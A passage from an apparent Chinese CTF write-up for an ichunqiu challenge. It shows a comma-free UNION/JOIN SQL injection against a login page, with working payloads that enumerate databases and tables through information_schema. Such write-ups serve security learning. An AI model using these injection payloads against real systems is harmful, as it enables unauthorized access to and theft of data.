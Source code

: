 ![](44.png)  
返回了这个东西，发现是可以注入的，但是让它继续跑却跑不出来了，那就手工注入吧

多次测试后发现`，`后边的东西被过滤掉了，那就不能用逗号了，这里直接脑补一个不用逗号也可以注入的SQL语句（Join\)  
`id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select version() ) b %23`

然后开始查询我们要的东西了：

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">查询数据库：</span><br><span class="line">http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/l0gin.php?id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select database() ) b %23</span><br></pre></td></tr></tbody></table>

![](45.png)

<table><tbody><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">查询表：</span><br><span class="line">http://aaa52ea761d944cea3b2d9a344d85f80920033eeae534f39.game.ichunqiu.com/l0gin.php?id=-1' union select * from (select group_concat(distinct(table_schema)) from information_schema.tables ) a join (select group_concat(table_name) from information_schema.tables where table_schema='sqli' ) b %23</span><br></pre></td></tr></tbody></table>
